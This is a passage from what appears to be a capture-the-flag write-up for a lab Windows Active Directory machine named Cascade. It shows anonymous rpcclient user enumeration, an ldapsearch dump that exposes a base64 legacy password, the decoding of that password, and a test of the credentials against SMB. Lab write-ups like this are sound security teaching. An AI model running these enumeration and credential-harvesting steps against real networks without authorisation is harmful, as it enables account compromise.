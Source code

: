 `DNS` running on its default port and next thing we see is `kerberos` listening on port `88`. Soon i see `kerberos` i look for `ldap` . Upon seeing `DNS, kerberos, ldap` i assume i'm on a windows `Active Directory` box. We can see `ldap` giving up its domain name `cascade.local`.

let's look at `rpcclinet` if we can get any potential `usernames`.
```
rpcclient -U "" 10.10.10.182
Enter WORKGROUP\'s password: 
rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
```
This give us all the `users` present on the machine. Which is so useful to us to enumerate furthur.
### Ldap
Let's Enumerate `ldap` and see if we can find any sensitive info. 
```java
ldapsearch -x -h 10.10.10.182 -D '' -w '' -b "DC=cascade,DC=local"

<SNIP>

sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132304542227239322
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

<SNIP>
```

Going through the `ldap` output . we see `cascadeLegacyPWD` property of `r.thompson` user. Which seems to be a `base64` encoded password. Let's decode it.
```
echo -n 'clk0bjVldmE=' |base64 -d

rY4n5eva
```
### SMB
So we got password for `r.thompson` user . Let's check this creds `r.thompson:rY4n5eva` against `SMB` and see if we can list and read any shares.
```
smbmap -u r.thompson -p 'rY4n5eva' -H 10.10.10.182

[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.182...
```